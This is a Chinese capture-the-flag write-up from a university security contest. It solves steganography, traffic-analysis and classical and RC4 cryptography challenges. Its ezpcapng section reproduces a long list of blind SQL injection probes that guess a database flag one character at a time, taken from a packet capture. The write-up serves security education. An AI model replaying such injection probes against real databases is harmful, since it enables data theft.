# 第三届西北工业大学大学生网络空间安全挑战赛WriteUp

## Misc

### 纯黑的噩梦

> 上千张黑色的图片，哪个才是我想要的

1. 正常解法：
   1. 因为要查看文章内图片，所以将后缀改为`.zip`。
   2. 打开`\word\media`得到所有图片。
   3. 得到`flag{docx隐写我有手就行}`

       

2. 另类解法：
   1. 用对word支持不好的软件打开，如`pages`，往下翻就可以看到。
   2. 开`WPS`会员，提取照片。（没试过）

### 你好，来签到的旅行者

> 请关注网络空间安全学院公众号 「 网联三航 安守四方 」 ，并在聊天框输入 「 flag 」 获取flag


### 踩踩我的图

> 这是我最喜欢的一张图了，我的秘密会伴随着这张图永远的流传下去，直至远征军的到来。

> HINT1：军用级别的秘密到底是什么
>
> HINT2：文件难道都是随便命名的吗？

题解：

1. 图片很大分离一下，得到压缩包：

    

    

2. 根据提示搜索得到一个软件[ssuite-picsel-security](https://cn.softoware.org/encryption-decryption-software/get-ssuite-picsel-security-for-windows-10-os.html)

    

3. 按照提示选择对应文件，解密得到flag：

    

### ezpcapng

1. 打开流量包注意到SQL注入行为：

    

2. 尝试将所有HTTP导出，分析SQL注入：

    但是练练数据过大，（可能是Windows资源管理器的问题，无法一次导出超过1000条数据，重名序号最多为999），所以先将流量包拆分为四块，导出得到全部注入语句，并对其URL解码。

    ```python
    import urllib.parse

    # 读取文件内容并写入另一个文件
    output_file_path = "output1.txt"  # 您希望写入的文件路径

    with open(output_file_path, 'w') as output_file:
        for i in range(0, 1000):
            input_file_path = f".\\php\\1\\sql4({i}).php"  # 每个 SQL 文件的路径
            try:
                with open(input_file_path, 'r') as input_file:
                    decoded_content = urllib.parse.unquote(input_file.read())  # 对文件内容进行 URL 解码
                    output_file.write(decoded_content+'\n')  # 将文件内容写入输出文件
            except FileNotFoundError:
                print(f"File {input_file_path} not found. Skipping.")
                break

    print("文件写入完毕。")

    ```

3. 分析注入语句，搜索含有flag的注入语句，汇总得到：

    ```txt
    test.flag ,1,1  >51
    test.flag ,1,1  >48
    test.flag ,1,1  >49
    test.flag ,1,1  !=49
    test.flag ,2,1  >51
    test.flag ,2,1  >48
    test.flag ,2,1  >9
    
    test.flag ORDER BY flag LIMIT 0,1 ,1,1  >874159
    test.flag ORDER BY flag LIMIT 0,1 ,1,1  >291919
    test.flag ORDER BY flag LIMIT 0,1 ,1,1  >365343
    test.flag ORDER BY flag LIMIT 0,1 ,1,1  >411890
    test.flag ORDER BY flag LIMIT 0,1 ,1,1  >827170
    test.flag ORDER BY flag LIMIT 0,1 ,1,1  >297326
    test.flag ORDER BY flag LIMIT 0,1 ,1,1  >584133
    test.flag ORDER BY flag LIMIT 0,1 ,1,1  >882982
    test.flag ORDER BY flag LIMIT 0,1 ,1,1  >999314
    test.flag ORDER BY flag LIMIT 0,1 ,1,1  >497731
    test.flag ORDER BY flag LIMIT 0,1 ,1,1  >398743
    test.flag ORDER BY flag LIMIT 0,1 ,1,1  >240680
    test.flag ORDER BY flag LIMIT 0,1 ,1,1  >842457
    test.flag ORDER BY flag LIMIT 0,1 ,1,1  >107775
    test.flag ORDER BY flag LIMIT 0,1 ,1,1  >646779
    test.flag ORDER BY flag LIMIT 0,1 ,1,1  >697517
    test.flag ORDER BY flag LIMIT 0,1 ,1,1  >224595
    test.flag ORDER BY flag LIMIT 0,1 ,1,1  >802733
    test.flag ORDER BY flag LIMIT 0,1 ,1,1  >417926
    test.flag ORDER BY flag LIMIT 0,1 ,1,1  >467419
    test.flag ORDER BY flag LIMIT 0,1 ,1,1  >263387
    test.flag ORDER BY flag LIMIT 0,1 ,1,1  >643045
    test.flag ORDER BY flag LIMIT 0,1 ,1,1  >756341
    test.flag ORDER BY flag LIMIT 0,1 ,1,1  >851095
    test.flag ORDER BY flag LIMIT 0,1 ,1,1  >983123
    test.flag ORDER BY flag LIMIT 0,1 ,1,1  >213918
    test.flag ORDER BY flag LIMIT 0,1 ,1,1  >605182
    test.flag ORDER BY flag LIMIT 0,1 ,1,1  >833958
    test.flag ORDER BY flag LIMIT 0,1 ,1,1  >990812
    test.flag ORDER BY flag LIMIT 0,1 ,1,1  >323214
    test.flag ORDER BY flag LIMIT 0,1 ,1,1  >64
    test.flag ORDER BY flag LIMIT 0,1 ,1,1  >96
    test.flag ORDER BY flag LIMIT 0,1 ,1,1  >112
    test.flag ORDER BY flag LIMIT 0,1 ,1,1  >104
    test.flag ORDER BY flag LIMIT 0,1 ,1,1  >100
    test.flag ORDER BY flag LIMIT 0,1 ,1,1  >102
    test.flag ORDER BY flag LIMIT 0,1 ,1,1  >101
    test.flag ORDER BY flag LIMIT 0,1 ,1,1  !=102
    
    test.flag ORDER BY flag LIMIT 0,1 ,2,1  >96
    test.flag ORDER BY flag LIMIT 0,1 ,2,1  >112
    test.flag ORDER BY flag LIMIT 0,1 ,2,1  >104
    test.flag ORDER BY flag LIMIT 0,1 ,2,1  >108
    test.flag ORDER BY flag LIMIT 0,1 ,2,1  >106
    test.flag ORDER BY flag LIMIT 0,1 ,2,1  >107
    test.flag ORDER BY flag LIMIT 0,1 ,2,1  !=108
    
    test.flag ORDER BY flag LIMIT 0,1 ,3,1  >96
    test.flag ORDER BY flag LIMIT 0,1 ,3,1  >112
    test.flag ORDER BY flag LIMIT 0,1 ,3,1  >104
    test.flag ORDER BY flag LIMIT 0,1 ,3,1  >100
    test.flag ORDER BY flag LIMIT 0,1 ,3,1  >98
    test.flag ORDER BY flag LIMIT 0,1 ,3,1  >97
    test.flag ORDER BY flag LIMIT 0,1 ,3,1  !=97
    
    test.flag ORDER BY flag LIMIT 0,1 ,4,1  >96
    test.flag ORDER BY flag LIMIT 0,1 ,4,1  >112
    test.flag ORDER BY flag LIMIT 0,1 ,4,1  >104
    test.flag ORDER BY flag LIMIT 0,1 ,4,1  >100
    test.flag ORDER BY flag LIMIT 0,1 ,4,1  >102
    test.flag ORDER BY flag LIMIT 0,1 ,4,1  >103
    test.flag ORDER BY flag LIMIT 0,1 ,4,1  !=103

    test.flag ORDER BY flag LIMIT 0,1 ,5,1  >96
    test.flag ORDER BY flag LIMIT 0,1 ,5,1  >112
    test.flag ORDER BY flag LIMIT 0,1 ,5,1  >120
    test.flag ORDER BY flag LIMIT 0,1 ,5,1  >124
    test.flag ORDER BY flag LIMIT 0,1 ,5,1  >122
    test.flag ORDER BY flag LIMIT 0,1 ,5,1  >123
    test.flag ORDER BY flag LIMIT 0,1 ,5,1  !=123
    
    test.flag ORDER BY flag LIMIT 0,1 ,6,1  >64
    test.flag ORDER BY flag LIMIT 0,1 ,6,1  >96
    test.flag ORDER BY flag LIMIT 0,1 ,6,1  >112
    test.flag ORDER BY flag LIMIT 0,1 ,6,1  >104
    test.flag ORDER BY flag LIMIT 0,1 ,6,1  >100
    test.flag ORDER BY flag LIMIT 0,1 ,6,1  >98
    test.flag ORDER BY flag LIMIT 0,1 ,6,1  >99
    test.flag ORDER BY flag LIMIT 0,1 ,6,1  !=99
    
    test.flag ORDER BY flag LIMIT 0,1 ,7,1  >96
    test.flag ORDER BY flag LIMIT 0,1 ,7,1  >112
    test.flag ORDER BY flag LIMIT 0,1 ,7,1  >104
    test.flag ORDER BY flag LIMIT 0,1 ,7,1  >100
    test.flag ORDER BY flag LIMIT 0,1 ,7,1  >102
    test.flag ORDER BY flag LIMIT 0,1 ,7,1  >103
    test.flag ORDER BY flag LIMIT 0,1 ,7,1  !=104
    
    test.flag ORDER BY flag LIMIT 0,1 ,8,1  >96
    test.flag ORDER BY flag LIMIT 0,1 ,8,1  >112
    test.flag ORDER BY flag LIMIT 0,1 ,8,1  >120
    test.flag ORDER BY flag LIMIT 0,1 ,8,1  >116
    test.flag ORDER BY flag LIMIT 0,1 ,8,1  >118
    test.flag ORDER BY flag LIMIT 0,1 ,8,1  >117
    test.flag ORDER BY flag LIMIT 0,1 ,8,1  !=117
    
    test.flag ORDER BY flag LIMIT 0,1 ,9,1  >96
    test.flag ORDER BY flag LIMIT 0,1 ,9,1  >112
    test.flag ORDER BY flag LIMIT 0,1 ,9,1  >104
    test.flag ORDER BY flag LIMIT 0,1 ,9,1  >108
    test.flag ORDER BY flag LIMIT 0,1 ,9,1  >110
    test.flag ORDER BY flag LIMIT 0,1 ,9,1  >109
    test.flag ORDER BY flag LIMIT 0,1 ,9,1  !=110
    
    test.flag ORDER BY flag LIMIT 0,1 ,10,1  >96
    test.flag ORDER BY flag LIMIT 0,1 ,10,1  >112
    test.flag ORDER BY flag LIMIT 0,1 ,10,1  >104
    test.flag ORDER BY flag LIMIT 0,1 ,10,1  >108
    test.flag ORDER BY flag LIMIT 0,1 ,10,1  >106
    test.flag ORDER BY flag LIMIT 0,1 ,10,1  >107
    test.flag ORDER BY flag LIMIT 0,1 ,10,1  !=107
    
    test.flag ORDER BY flag LIMIT 0,1 ,11,1  >96
    test.flag ORDER BY flag LIMIT 0,1 ,11,1  >112
    test.flag ORDER BY flag LIMIT 0,1 ,11,1  >104
    test.flag ORDER BY flag LIMIT 0,1 ,11,1  >100
    test.flag ORDER BY flag LIMIT 0,1 ,11,1  >102
    test.flag ORDER BY flag LIMIT 0,1 ,11,1  >101
    test.flag ORDER BY flag LIMIT 0,1 ,11,1  !=101
    
    test.flag ORDER BY flag LIMIT 0,1 ,12,1  >96
    test.flag ORDER BY flag LIMIT 0,1 ,12,1  >112
    test.flag ORDER BY flag LIMIT 0,1 ,12,1  >104
    test.flag ORDER BY flag LIMIT 0,1 ,12,1  >100
    test.flag ORDER BY flag LIMIT 0,1 ,12,1  >98
    test.flag ORDER BY flag LIMIT 0,1 ,12,1  >99
    test.flag ORDER BY flag LIMIT 0,1 ,12,1  !=100
    
    test.flag ORDER BY flag LIMIT 0,1 ,13,1  >96
    test.flag ORDER BY flag LIMIT 0,1 ,13,1  >48
    test.flag ORDER BY flag LIMIT 0,1 ,13,1  >72
    test.flag ORDER BY flag LIMIT 0,1 ,13,1  >84
    test.flag ORDER BY flag LIMIT 0,1 ,13,1  >90
    test.flag ORDER BY flag LIMIT 0,1 ,13,1  >93
    test.flag ORDER BY flag LIMIT 0,1 ,13,1  >94
    test.flag ORDER BY flag LIMIT 0,1 ,13,1  >95
    test.flag ORDER BY flag LIMIT 0,1 ,13,1  !=95
    
    test.flag ORDER BY flag LIMIT 0,1 ,14,1  >64
    test.flag ORDER BY flag LIMIT 0,1 ,14,1  >96
    test.flag ORDER BY flag LIMIT 0,1 ,14,1  >112
    test.flag ORDER BY flag LIMIT 0,1 ,14,1  >104
    test.flag ORDER BY flag LIMIT 0,1 ,14,1  >100
    test.flag ORDER BY flag LIMIT 0,1 ,14,1  >98
    test.flag ORDER BY flag LIMIT 0,1 ,14,1  >99
    test.flag ORDER BY flag LIMIT 0,1 ,14,1  !=99
    
    test.flag ORDER BY flag LIMIT 0,1 ,15,1  >96
    test.flag ORDER BY flag LIMIT 0,1 ,15,1  >48
    test.flag ORDER BY flag LIMIT 0,1 ,15,1  >1
    test.flag ORDER BY flag LIMIT 0,1 ,15,1  >24
    test.flag ORDER BY flag LIMIT 0,1 ,15,1  >36
    test.flag ORDER BY flag LIMIT 0,1 ,15,1  >42
    test.flag ORDER BY flag LIMIT 0,1 ,15,1  >45
    test.flag ORDER BY flag LIMIT 0,1 ,15,1  >46
    test.flag ORDER BY flag LIMIT 0,1 ,15,1  >47
    test.flag ORDER BY flag LIMIT 0,1 ,15,1  !=48
    
    test.flag ORDER BY flag LIMIT 0,1 ,16,1  >47
    test.flag ORDER BY flag LIMIT 0,1 ,16,1  >87
    test.flag ORDER BY flag LIMIT 0,1 ,16,1  >107
    test.flag ORDER BY flag LIMIT 0,1 ,16,1  >97
    test.flag ORDER BY flag LIMIT 0,1 ,16,1  >102
    test.flag ORDER BY flag LIMIT 0,1 ,16,1  >99
    test.flag ORDER BY flag LIMIT 0,1 ,16,1  >100
    test.flag ORDER BY flag LIMIT 0,1 ,16,1  !=100
    
    test.flag ORDER BY flag LIMIT 0,1 ,17,1  >96
    test.flag ORDER BY flag LIMIT 0,1 ,17,1  >112
    test.flag ORDER BY flag LIMIT 0,1 ,17,1  >104
    test.flag ORDER BY flag LIMIT 0,1 ,17,1  >108
    test.flag ORDER BY flag LIMIT 0,1 ,17,1  >106
    test.flag ORDER BY flag LIMIT 0,1 ,17,1  >105
    test.flag ORDER BY flag LIMIT 0,1 ,17,1  !=105
    
    test.flag ORDER BY flag LIMIT 0,1 ,18,1  >96
    test.flag ORDER BY flag LIMIT 0,1 ,18,1  >112
    test.flag ORDER BY flag LIMIT 0,1 ,18,1  >104
    test.flag ORDER BY flag LIMIT 0,1 ,18,1  >108
    test.flag ORDER BY flag LIMIT 0,1 ,18,1  >110
    test.flag ORDER BY flag LIMIT 0,1 ,18,1  >109
    test.flag ORDER BY flag LIMIT 0,1 ,18,1  !=110
    
    test.flag ORDER BY flag LIMIT 0,1 ,19,1  >96
    test.flag ORDER BY flag LIMIT 0,1 ,19,1  >112
    test.flag ORDER BY flag LIMIT 0,1 ,19,1  >104
    test.flag ORDER BY flag LIMIT 0,1 ,19,1  >100
    test.flag ORDER BY flag LIMIT 0,1 ,19,1  >102
    test.flag ORDER BY flag LIMIT 0,1 ,19,1  >103
    test.flag ORDER BY flag LIMIT 0,1 ,19,1  !=103
    
    test.flag ORDER BY flag LIMIT 0,1 ,20,1  >96
    test.flag ORDER BY flag LIMIT 0,1 ,20,1  >48
    test.flag ORDER BY flag LIMIT 0,1 ,20,1  >72
    test.flag ORDER BY flag LIMIT 0,1 ,20,1  >84
    test.flag ORDER BY flag LIMIT 0,1 ,20,1  >90
    test.flag ORDER BY flag LIMIT 0,1 ,20,1  >93
    test.flag ORDER BY flag LIMIT 0,1 ,20,1  >94
    test.flag ORDER BY flag LIMIT 0,1 ,20,1  >95
    test.flag ORDER BY flag LIMIT 0,1 ,20,1  !=95
    
    test.flag ORDER BY flag LIMIT 0,1 ,21,1  >64
    test.flag ORDER BY flag LIMIT 0,1 ,21,1  >96
    test.flag ORDER BY flag LIMIT 0,1 ,21,1  >112
    test.flag ORDER BY flag LIMIT 0,1 ,21,1  >104
    test.flag ORDER BY flag LIMIT 0,1 ,21,1  >100
    test.flag ORDER BY flag LIMIT 0,1 ,21,1  >98
    test.flag ORDER BY flag LIMIT 0,1 ,21,1  >97
    test.flag ORDER BY flag LIMIT 0,1 ,21,1  !=98
    
    test.flag ORDER BY flag LIMIT 0,1 ,22,1  >96
    test.flag ORDER BY flag LIMIT 0,1 ,22,1  >112
    test.flag ORDER BY flag LIMIT 0,1 ,22,1  >120
    test.flag ORDER BY flag LIMIT 0,1 ,22,1  >124
    test.flag ORDER BY flag LIMIT 0,1 ,22,1  >122
    test.flag ORDER BY flag LIMIT 0,1 ,22,1  >121
    test.flag ORDER BY flag LIMIT 0,1 ,22,1  !=121
    
    test.flag ORDER BY flag LIMIT 0,1 ,23,1  >96
    test.flag ORDER BY flag LIMIT 0,1 ,23,1  >112
    test.flag ORDER BY flag LIMIT 0,1 ,23,1  >104
    test.flag ORDER BY flag LIMIT 0,1 ,23,1  >108
    test.flag ORDER BY flag LIMIT 0,1 ,23,1  >110
    test.flag ORDER BY flag LIMIT 0,1 ,23,1  >111
    test.flag ORDER BY flag LIMIT 0,1 ,23,1  !=112
    
    test.flag ORDER BY flag LIMIT 0,1 ,24,1  >96
    test.flag ORDER BY flag LIMIT 0,1 ,24,1  >48
    test.flag ORDER BY flag LIMIT 0,1 ,24,1  >72
    test.flag ORDER BY flag LIMIT 0,1 ,24,1  >60
    test.flag ORDER BY flag LIMIT 0,1 ,24,1  >66
    test.flag ORDER BY flag LIMIT 0,1 ,24,1  >63
    test.flag ORDER BY flag LIMIT 0,1 ,24,1  >64
    test.flag ORDER BY flag LIMIT 0,1 ,24,1  !=64
    
    test.flag ORDER BY flag LIMIT 0,1 ,25,1  >64
    test.flag ORDER BY flag LIMIT 0,1 ,25,1  >96
    test.flag ORDER BY flag LIMIT 0,1 ,25,1  >112
    test.flag ORDER BY flag LIMIT 0,1 ,25,1  >120
    test.flag ORDER BY flag LIMIT 0,1 ,25,1  >116
    test.flag ORDER BY flag LIMIT 0,1 ,25,1  >114
    test.flag ORDER BY flag LIMIT 0,1 ,25,1  >115
    test.flag ORDER BY flag LIMIT 0,1 ,25,1  !=115
    
    test.flag ORDER BY flag LIMIT 0,1 ,26,1  >96
    test.flag ORDER BY flag LIMIT 0,1 ,26,1  >112
    test.flag ORDER BY flag LIMIT 0,1 ,26,1  >120
    test.flag ORDER BY flag LIMIT 0,1 ,26,1  >116
    test.flag ORDER BY flag LIMIT 0,1 ,26,1  >114
    test.flag ORDER BY flag LIMIT 0,1 ,26,1  >115
    test.flag ORDER BY flag LIMIT 0,1 ,26,1  !=115
    
    test.flag ORDER BY flag LIMIT 0,1 ,27,1  >96
    test.flag ORDER BY flag LIMIT 0,1 ,27,1  >48
    test.flag ORDER BY flag LIMIT 0,1 ,27,1  >72
    test.flag ORDER BY flag LIMIT 0,1 ,27,1  >84
    test.flag ORDER BY flag LIMIT 0,1 ,27,1  >90
    test.flag ORDER BY flag LIMIT 0,1 ,27,1  >93
    test.flag ORDER BY flag LIMIT 0,1 ,27,1  >94
    test.flag ORDER BY flag LIMIT 0,1 ,27,1  >95
    test.flag ORDER BY flag LIMIT 0,1 ,27,1  !=95
    
    test.flag ORDER BY flag LIMIT 0,1 ,28,1  >64
    test.flag ORDER BY flag LIMIT 0,1 ,28,1  >96
    test.flag ORDER BY flag LIMIT 0,1 ,28,1  >112
    test.flag ORDER BY flag LIMIT 0,1 ,28,1  >120
    test.flag ORDER BY flag LIMIT 0,1 ,28,1  >116
    test.flag ORDER BY flag LIMIT 0,1 ,28,1  >118
    test.flag ORDER BY flag LIMIT 0,1 ,28,1  >119
    test.flag ORDER BY flag LIMIT 0,1 ,28,1  !=119
    
    test.flag ORDER BY flag LIMIT 0,1 ,29,1  >96
    test.flag ORDER BY flag LIMIT 0,1 ,29,1  >112
    test.flag ORDER BY flag LIMIT 0,1 ,29,1  >104
    test.flag ORDER BY flag LIMIT 0,1 ,29,1  >100
    test.flag ORDER BY flag LIMIT 0,1 ,29,1  >98
    test.flag ORDER BY flag LIMIT 0,1 ,29,1  >97
    test.flag ORDER BY flag LIMIT 0,1 ,29,1  !=97
    
    test.flag ORDER BY flag LIMIT 0,1 ,30,1  >96
    test.flag ORDER BY flag LIMIT 0,1 ,30,1  >112
    test.flag ORDER BY flag LIMIT 0,1 ,30,1  >104
    test.flag ORDER BY flag LIMIT 0,1 ,30,1  >100
    test.flag ORDER BY flag LIMIT 0,1 ,30,1  >102
    test.flag ORDER BY flag LIMIT 0,1 ,30,1  >101
    test.flag ORDER BY flag LIMIT 0,1 ,30,1  !=102
    
    test.flag ORDER BY flag LIMIT 0,1 ,31,1  >96
    test.flag ORDER BY flag LIMIT 0,1 ,31,1  >48
    test.flag ORDER BY flag LIMIT 0,1 ,31,1  >72
    test.flag ORDER BY flag LIMIT 0,1 ,31,1  >84
    test.flag ORDER BY flag LIMIT 0,1 ,31,1  >90
    test.flag ORDER BY flag LIMIT 0,1 ,31,1  >93
    test.flag ORDER BY flag LIMIT 0,1 ,31,1  >94
    test.flag ORDER BY flag LIMIT 0,1 ,31,1  >95
    test.flag ORDER BY flag LIMIT 0,1 ,31,1  !=95
    
    test.flag ORDER BY flag LIMIT 0,1 ,32,1  >64
    test.flag ORDER BY flag LIMIT 0,1 ,32,1  >32
    test.flag ORDER BY flag LIMIT 0,1 ,32,1  >48
    test.flag ORDER BY flag LIMIT 0,1 ,32,1  >56
    test.flag ORDER BY flag LIMIT 0,1 ,32,1  >52
    test.flag ORDER BY flag LIMIT 0,1 ,32,1  >50
    test.flag ORDER BY flag LIMIT 0,1 ,32,1  >49
    test.flag ORDER BY flag LIMIT 0,1 ,32,1  !=50
    
    test.flag ORDER BY flag LIMIT 0,1 ,33,1  >47
    test.flag ORDER BY flag LIMIT 0,1 ,33,1  >87
    test.flag ORDER BY flag LIMIT 0,1 ,33,1  >67
    test.flag ORDER BY flag LIMIT 0,1 ,33,1  >57
    test.flag ORDER BY flag LIMIT 0,1 ,33,1  >52
    test.flag ORDER BY flag LIMIT 0,1 ,33,1  >49
    test.flag ORDER BY flag LIMIT 0,1 ,33,1  >50
    test.flag ORDER BY flag LIMIT 0,1 ,33,1  >51
    test.flag ORDER BY flag LIMIT 0,1 ,33,1  !=51
    
    test.flag ORDER BY flag LIMIT 0,1 ,34,1  >47
    test.flag ORDER BY flag LIMIT 0,1 ,34,1  >87
    test.flag ORDER BY flag LIMIT 0,1 ,34,1  >67
    test.flag ORDER BY flag LIMIT 0,1 ,34,1  >57
    test.flag ORDER BY flag LIMIT 0,1 ,34,1  >52
    test.flag ORDER BY flag LIMIT 0,1 ,34,1  >49
    test.flag ORDER BY flag LIMIT 0,1 ,34,1  >50
    test.flag ORDER BY flag LIMIT 0,1 ,34,1  >51
    test.flag ORDER BY flag LIMIT 0,1 ,34,1  !=51
    
    test.flag ORDER BY flag LIMIT 0,1 ,35,1  >47
    test.flag ORDER BY flag LIMIT 0,1 ,35,1  >87
    test.flag ORDER BY flag LIMIT 0,1 ,35,1  >67
    test.flag ORDER BY flag LIMIT 0,1 ,35,1  >57
    test.flag ORDER BY flag LIMIT 0,1 ,35,1  >52
    test.flag ORDER BY flag LIMIT 0,1 ,35,1  >49
    test.flag ORDER BY flag LIMIT 0,1 ,35,1  >50
    test.flag ORDER BY flag LIMIT 0,1 ,35,1  >51
    test.flag ORDER BY flag LIMIT 0,1 ,35,1  !=51
    
    test.flag ORDER BY flag LIMIT 0,1 ,36,1  >47
    test.flag ORDER BY flag LIMIT 0,1 ,36,1  >87
    test.flag ORDER BY flag LIMIT 0,1 ,36,1  >67
    test.flag ORDER BY flag LIMIT 0,1 ,36,1  >57
    test.flag ORDER BY flag LIMIT 0,1 ,36,1  >52
    test.flag ORDER BY flag LIMIT 0,1 ,36,1  >49
    test.flag ORDER BY flag LIMIT 0,1 ,36,1  >50
    test.flag ORDER BY flag LIMIT 0,1 ,36,1  >51
    test.flag ORDER BY flag LIMIT 0,1 ,36,1  !=51
    
    test.flag ORDER BY flag LIMIT 0,1 ,37,1  >47
    test.flag ORDER BY flag LIMIT 0,1 ,37,1  >87
    test.flag ORDER BY flag LIMIT 0,1 ,37,1  >67
    test.flag ORDER BY flag LIMIT 0,1 ,37,1  >57
    test.flag ORDER BY flag LIMIT 0,1 ,37,1  >52
    test.flag ORDER BY flag LIMIT 0,1 ,37,1  >49
    test.flag ORDER BY flag LIMIT 0,1 ,37,1  >50
    test.flag ORDER BY flag LIMIT 0,1 ,37,1  >51
    test.flag ORDER BY flag LIMIT 0,1 ,37,1  !=51
    
    test.flag ORDER BY flag LIMIT 0,1 ,38,1  >47
    test.flag ORDER BY flag LIMIT 0,1 ,38,1  >87
    test.flag ORDER BY flag LIMIT 0,1 ,38,1  >67
    test.flag ORDER BY flag LIMIT 0,1 ,38,1  >57
    test.flag ORDER BY flag LIMIT 0,1 ,38,1  >52
    test.flag ORDER BY flag LIMIT 0,1 ,38,1  >49
    test.flag ORDER BY flag LIMIT 0,1 ,38,1  >50
    test.flag ORDER BY flag LIMIT 0,1 ,38,1  >51
    test.flag ORDER BY flag LIMIT 0,1 ,38,1  !=51
    
    test.flag ORDER BY flag LIMIT 0,1 ,39,1  >47
    test.flag ORDER BY flag LIMIT 0,1 ,39,1  >87
    test.flag ORDER BY flag LIMIT 0,1 ,39,1  >67
    test.flag ORDER BY flag LIMIT 0,1 ,39,1  >57
    test.flag ORDER BY flag LIMIT 0,1 ,39,1  >52
    test.flag ORDER BY flag LIMIT 0,1 ,39,1  >49
    test.flag ORDER BY flag LIMIT 0,1 ,39,1  >50
    test.flag ORDER BY flag LIMIT 0,1 ,39,1  >51
    test.flag ORDER BY flag LIMIT 0,1 ,39,1  !=51
    
    test.flag ORDER BY flag LIMIT 0,1 ,40,1  >47
    test.flag ORDER BY flag LIMIT 0,1 ,40,1  >87
    test.flag ORDER BY flag LIMIT 0,1 ,40,1  >67
    test.flag ORDER BY flag LIMIT 0,1 ,40,1  >57
    test.flag ORDER BY flag LIMIT 0,1 ,40,1  >52
    test.flag ORDER BY flag LIMIT 0,1 ,40,1  >49
    test.flag ORDER BY flag LIMIT 0,1 ,40,1  >50
    test.flag ORDER BY flag LIMIT 0,1 ,40,1  >51
    test.flag ORDER BY flag LIMIT 0,1 ,40,1  !=51
    
    test.flag ORDER BY flag LIMIT 0,1 ,41,1  >47
    test.flag ORDER BY flag LIMIT 0,1 ,41,1  >87
    test.flag ORDER BY flag LIMIT 0,1 ,41,1  >107
    test.flag ORDER BY flag LIMIT 0,1 ,41,1  >117
    test.flag ORDER BY flag LIMIT 0,1 ,41,1  >122
    test.flag ORDER BY flag LIMIT 0,1 ,41,1  >125
    test.flag ORDER BY flag LIMIT 0,1 ,41,1  >123
    test.flag ORDER BY flag LIMIT 0,1 ,41,1  >124
    test.flag ORDER BY flag LIMIT 0,1 ,41,1  !=125
    test.flag ORDER BY flag LIMIT 0,1 ,42,1  >64
    test.flag ORDER BY flag LIMIT 0,1 ,42,1  >32
    test.flag ORDER BY flag LIMIT 0,1 ,42,1  >1
    ```

4. 可以发现每位最后一次查询即为flag对应的ascii码，通过ascii码转换为字符即可得到flag。

    ```py
    flag = [102,108,97,103,123,99,104,117,110,107,101,100,95,99,48,100,105,110,103,95,98,121,112,64,115,115,95,119,97,102,95,50,51,51,51,51,51,51,51,51,125]
    [print(chr(i), end='') for i in flag]
    ```

## Crtpto

### Matryoshka-doll

1. 打开附件

    ```py
    import base64
    import random
    import flag from *
    
    def caesar_encrypt(plain_text, shift):
        encrypted_text = ""
        for char in plain_text:
            if char.isalpha():
                is_upper = char.isupper()
                char = char.lower()
                shifted = ord(char) + shift
                if shifted > ord('z'):
                    shifted -= 26
                encrypted_char = chr(shifted)
                if is_upper:
                    encrypted_char = encrypted_char.upper()
                encrypted_text += encrypted_char
            else:
                encrypted_text += char
        return encrypted_text
    
    def rail_fence_encrypt(plain_text, rails):
        matrix = [['' for _ in range(len(plain_text))] for _ in range(rails)]
        down = False
        row, col = 0, 0
        for char in plain_text:
            if row == 0 or row == rails - 1:
                down = not down
            matrix[row][col] = char
            col += 1
            if down:
                row += 1
            else:
                row -= 1
        encrypted_text = ''.join([''.join(row) for row in matrix])
        return encrypted_text
    
    original_text = ????????????????????????
    caesar_shift = random.randint(1, 25)
    rail_fence_rails = random.randint(2, 10)
    caesar_encrypted_text = caesar_encrypt(original_text, caesar_shift)
    rail_fence_encrypted_text = rail_fence_encrypt(caesar_encrypted_text, rail_fence_rails)
    base64_encoded_text = base64.b64encode(rail_fence_encrypted_text.encode('utf-8')).decode('utf-8')
    base32_encoded_text = base64.b32encode(base64_encoded_text.encode('utf-8')).decode('utf-8')
    ```

    分析：

    + 可以看到程序对`original_text`进行了四次变换。
    + 阅读函数（根据函数名也可）`caesar_encrypt`为凯撒密码，`rail_fence_encrypt`是栅栏密码
    + 整个过程便是对`flag` > 随机位（1~25）移量凯撒加密 > 随机位（2~10）栅栏加密 > base64编码 > base32编码
2. 打开示例，通过浏览器访问：

   

3. 根据分析，通过在线网站进行解密：
   1. [cyberchef](https://cyberchef.org/#recipe=From_Base32('A-Z2-7%3D',false)From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=TUZEVkNNMjJQSkRIS1QyWExFWUU2UjJPTlpNVEdNTEtKVkRXTzVDTktNWVdVV1NCT0JZRTQ2SlFHSkdGSVlaU0xJWlhHTkRCSVJER1VUMlVMSldHQ1IyV05OR1VDUEo1):可以自动分析

        

   2. [bugku-栅栏](https://ctf.bugku.com/tool/railfence):注意大括号位置（如果没有解可以重置一下实例）

        

   3. [bugku-凯撒](https://ctf.bugku.com/tool/caesar):找到flag

        

### 上密码学上的

> HINT1 看好你的encode文件，做好备份，不要它被清空了都不知道
>
> HINT2 maybe一行代码都不用写，光打几个注释程序就能跑了

1. 加密过程看着很复杂，但是主要是异或，可以通过异或的性质进行解密。根据提示也可以知道再按照顺序加密一次就好。
2. 但是cmake出现了报错，索性让GPT写个Python脚本：

    ```python
    def swap(a, b):
        return b, a

    def PRGA(pi, pj, pk, plaintext_length, plaintext, ciphertext):
        i, j, k = pi, pj, pk
        for m in range(plaintext_length):
            i = (i + 1) % 256
            j = (j + S[i]) % 256
            S[i], S[j] = swap(S[i], S[j])
            t = (S[i] + S[j]) % 256
            ciphertext[m] = plaintext[m] ^ S[t]
        return i, j, k

    with open("seed", "r") as f:
        K_len = int(f.readline())
        K_table = f.readline().strip()

    with open("encode", "rb") as f:
        ciphertext = f.read()

    S = [i for i in range(256)]
    T = [ord(c) for c in K_table]
    j = 0
    for i in range(256):
        j = (j + S[i] + T[i % K_len]) % 256
        S[i], S[j] = swap(S[i], S[j])

    pi, pj, pk = 0, 0, 0
    plaintext = bytearray(len(ciphertext))
    pi, pj, pk = PRGA(pi, pj, pk, len(ciphertext), ciphertext, plaintext)

    with open("decoded_output", "wb") as f:
        f.write(plaintext)
    print("Decryption successful. Please check the file 'decoded_output' for the decrypted data.")

    ```

4. 运行得到结果：

    ```txt
    Dialogue: Importance of bilateral relationship reaffirmed
    
    flag{here_Is_th3_f1ag_of_RC4Question}
    
    China and the United States should properly handle their relations, and "how China and the US get along will determine the future of humanity", President Xi Jinping said.
    
    Xi made the remark while meeting with a bipartisan US Senate delegation led by Senate Majority Leader Chuck Schumer at the Great Hall of the People in Beijing on Monday afternoon.
    
    The relations between the world's top two economies have been tense due to factors such as the Taiwan question and US sanctions against China's semiconductor sector, analysts said.
    
    Xi said the two countries should respect each other, coexist in peace and pursue win-win cooperation. They also should boost the well-being of the two peoples, promote the progress of human society and contribute to world peace and development, he added.
    
